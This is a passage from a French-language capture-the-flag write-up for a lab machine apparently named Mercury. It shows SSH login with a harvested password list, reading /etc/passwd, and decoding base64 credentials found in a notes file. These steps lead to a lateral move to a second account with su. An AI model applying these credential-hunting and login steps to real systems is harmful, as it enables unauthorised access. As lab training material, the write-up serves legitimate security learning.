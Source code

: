 On se retrouve avec une liste d'utilisateurs et de mot de passe. Il ne nous reste plus qu'à les essayer sur le **SSH**.

Et le vainqueur est **webmaster** avec le mot de passe **mercuryisthesizeof0.056Earths** qui arrive à se connecter.

On peut récupérer le premier **flag** dans le répertoire de l'utilisateur :

```bash
cat /home/webmaster/user_flag.txt 

[user_flag_8339915c9a454657bd60ee58776f4ccd]
```

On fait un tour dans le fichier ``/etc/passwd`` pour voir quels utilisateurs sont présents sur la machine :

```
mercury:x:1000:1000:mercury:/home/mercury:/bin/bash
webmaster:x:1001:1001:,,,:/home/webmaster:/bin/bash
linuxmaster:x:1002:1002:,,,:/home/linuxmaster:/bin/bash
```

* * *

## Privilege escalation linuxmaster

On se promène un peu dans le répertoire de l'utilisateur actuel (``webmaster``) et on tombe sur quelque chose d'intéressant :

```bash
cat /home/webmaster/mercury_proj/notes.txt
```

```
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

On voit déjà à première vue qu'il s'agit de **base64**. On peut donc le décoder directement avec cette commande :

```bash
echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
```

Et on récupère ce mot de passe : **mercurymeandiameteris4880km**

On peut en faire de même pour l'autre mot de passe mais on retombe sur celui que l'on connait déjà (``mercuryisthesizeof0.056Earths``).


On se connecte à l'utilisateur **linuxmaster** avec notre nouveau mot de passe :

```bash
su linuxmaster
```

* * *
